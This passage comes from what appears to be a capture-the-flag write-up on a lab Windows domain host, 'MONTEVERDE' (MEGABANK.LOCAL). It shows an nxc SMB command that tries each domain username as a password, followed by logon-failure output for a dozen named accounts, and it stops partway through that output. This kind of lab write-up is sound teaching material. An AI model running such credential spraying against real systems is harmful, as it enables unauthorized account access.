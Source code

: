 # Exploitation

Now that we have a users list we can try things like password spray or look for any user have pre auth enabled, we could try all this and add do more enum for password spray as any user have set there username as there password.

Well this is not exactly password spray, i just pass the passwords file as the users list we have just to see if any service or a diffrent naming account like ‘AAD_987d7f2f57d’ does also belong to any other user and they might have their password as AAD_987d7f2f57d.

```bash
nxc smb 10.10.10.172 -u users -p users 
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:Guest STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-ata:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-bexec:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\svc-netapp:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\roleary:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\smorgan:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\Guest:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\mhope:mhope STATUS_LOGON_FAILURE 
SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:mhope STATUS_LOGON_FAILURE 
```